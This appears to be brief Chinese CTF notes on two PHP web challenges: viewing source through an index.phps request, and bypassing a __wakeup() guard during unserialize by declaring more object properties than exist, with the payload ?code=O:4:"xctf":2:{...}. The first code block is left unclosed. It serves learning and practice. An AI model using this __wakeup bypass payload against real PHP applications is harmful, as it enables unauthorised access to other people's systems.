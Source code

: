 # 查看php的源码——php2

比如index.php,变成index.phps
# 反序列化
```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
代码的漏洞
使用代码输出序列化
```php
class xctf{
public $flag = '111';
public function __wakeup(){
   exit('bad requests');
 }
}
// O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```
如果我们在序列化中说明的对象属性要比实际的对象属性要大，
那么将不会执行__wakeup()这个方法
因此
漏洞``?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`
